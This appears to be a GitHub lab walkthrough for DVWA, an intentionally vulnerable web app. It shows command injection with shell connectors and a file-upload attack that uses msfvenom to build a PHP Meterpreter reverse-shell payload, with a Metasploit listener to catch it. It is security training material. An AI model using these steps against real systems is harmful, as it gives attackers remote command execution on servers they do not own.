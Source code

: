 # DVWA 

---------------------------

## Command Injection

Command injection let you perform commands on the textbox that is intended for another task such in this case, ping a host.

Connectors can be used here to add a command which will run with the action (or not) that this textbox is intended for:

![image](https://github.com/ELRame/HackingTools/assets/82544416/88a0d631-49be-4e91-afee-22850eccc81c)

Other connectors u can use are: **&&** **&** **;**

With this in mind, and changing the difficulty on DVWA you can take a look at the source code to see if there is some character escaped/blacklisted:

![image](https://github.com/ELRame/HackingTools/assets/82544416/d25a3f58-8f92-40e7-98db-784ea3507280)

---------------------------------

## File Upload

File upload allows you to upload a malicious file into the dvwa directory, with a reverse meterpreter connection, you'll be able to run commands on it.

Run ````msfconsole```` and search for multi handler:

![image](https://github.com/ELRame/HackingTools/assets/82544416/5e93e9b8-42cf-445a-80c3-fb1750c094a6)

Select the number 30 with ````use 30```` (multi/handler) and set the payload as ````php/meterpreter/reverse_tcp````

![image](https://github.com/ELRame/HackingTools/assets/82544416/7e48c7ee-f1a0-4577-933c-d41c8c2290fc)

Then type ````show options```` to get the fields you need to fill, in this case LHOST, which can be set with ````set LHOST youripmachine```` that in this case is **127.0.0.1** (localhost) since we are running dvwa in the same machine

![image](https://github.com/ELRame/HackingTools/assets/82544416/dcbf1fde-19cd-404d-ae0e-bd91972b9b52)

After this you can create the payload for dvwa with **msfvenom** using the folloring command:

````
msfvenom -p php/meterpreter/reverse_tcp LHOST=youripmachine LPORT=4444 -f raw >malfile.php
````

![image](https://github.com/ELRame/HackingTools/assets/82544416/ea79972c-b9ef-4c1a-acf4-75a3adf10b85)

After this you can go to dvwa and upload the file, once uploaded, you have to go back to metasploit and run the command ````run```` or ````exploit```` in order to put it in listening state:

![image](https://github.com/ELRame/HackingTools/assets/82544416/9ba1a9da-0a65-46ae-b255-b11891429edd)

Now, on dvwa copy the path where the file was uploaded and put it in the url address:

![image](https://github.com/ELRame/HackingTools/assets/82544416/3eec3d74-ba1f-4f7d-ad0d-5f93f0e7a6e0)

After that, go to the url and the meterpreter session should be running:

![image](https://github.com/ELRame/HackingTools/assets/82544416/385b87cc-915d-466f-bc52-b132aec04276)

![image](https://github.com/ELRame/HackingTools/assets/82544416/cbd56dcc-72dd-4736-b78e-9e659f4a3f9e)

### Medium Difficulty

